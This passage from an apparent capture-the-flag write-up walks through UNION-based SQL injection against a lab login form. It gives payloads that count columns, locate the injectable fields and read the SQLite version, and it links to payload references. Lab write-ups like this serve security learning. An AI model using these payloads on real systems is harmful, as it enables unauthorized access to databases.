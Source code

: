 in sqlmap give the hint that is UNION injectable with 4 colloums, now put command sql injection to username : 

```
razor' UNION ALL SELECT NULL,NULL,NULL,NULL--
```
and here the result : 
![Background](/assets/thm-madeye-castle/sql_2.png)

here I am trying to send null values to 4 columns and get an error, so there are 4 columns where column 1 and 4 are injectable username and password. we can identify the column for the user and password in 1 and 4. The result :
```
razor' UNION ALL SELECT 1,2,3,4--
```
![Background](/assets/thm-madeye-castle/sql_1.png)

After that we can check the version in column 1 or 4 or both. if you don't know that you can read in [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification) and command for sqlite in [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) . then using this command : 

```
razor'UNION ALL SELECT sqlite_version(),2,3,sqlite_version()--
```
![Background](/assets/thm-madeye-castle/sql_3.png)
